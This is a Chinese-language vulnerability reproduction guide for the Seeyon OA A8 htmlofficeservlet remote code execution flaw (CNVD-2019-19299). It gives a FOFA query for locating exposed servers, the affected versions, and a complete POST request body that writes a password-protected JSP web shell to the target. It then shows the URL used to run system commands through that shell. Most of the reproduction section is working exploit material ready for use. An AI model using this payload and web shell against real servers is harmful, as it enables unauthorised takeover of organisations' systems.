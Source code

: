 # 致远 OA A8 htmlofficeservlet RCE漏洞 CNVD-2019-19299

## 漏洞描述

该漏洞最早于6月26号左右，有安全厂商发出漏洞预警。

远程攻击者在无需登录的情况下可通过向 URL /seeyon/htmlofficeservlet POST 精心构造的数据即可向目标服务器写入任意文件，写入成功后可执行任意系统命令进而控制目标服务器。

## FOFA

> [!NOTE]
>
> title="致远A8-V5协同管理软件 V6.1sp1"

## 影响版本

> [!NOTE]
>
> 致远A8-V5协同管理软件V6.1sp1
>
> 致远A8+协同管理软件V7.0、V7.0sp1、V7.0sp2、V7.0sp3
>
> 致远A8+协同管理软件V7.1

## 漏洞复现

访问目标站点 http://xxx.xxx.xxx.xxx:8088/seeyon/htmlofficeservlet

出现如下图响应，则可能含有漏洞

![](image/zhiyuan-1.png)

使用POST请求发出如下请求包

```
DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
OPTION=S3WYOSWLBSGr
currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
CREATEDATE=wUghPB3szB3Xwg66
RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
originalFileId=wV66
originalCreateDate=wUghPB3szB3Xwg66
FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
needReadFile=yRWZdAS6
originalCreateDate=wLSGP4oEzLKAz4=iz=66
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("calsee".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>>a6e4f045d4b8506bf492ada7e3390d7ce
```

![](image/zhiyuan-2.png)

出现如图响应则为上传成功

访问 http://xxx.xxx.xxx.xxx:8088/seeyon/testtesta.jsp?pwd=calsee&cmd=cmd+/c+dir

![](image/zhiyuan-3.png)

## 漏洞利用POC

Goby中含有漏洞检测POC

![](image/zhiyuan-4.png)
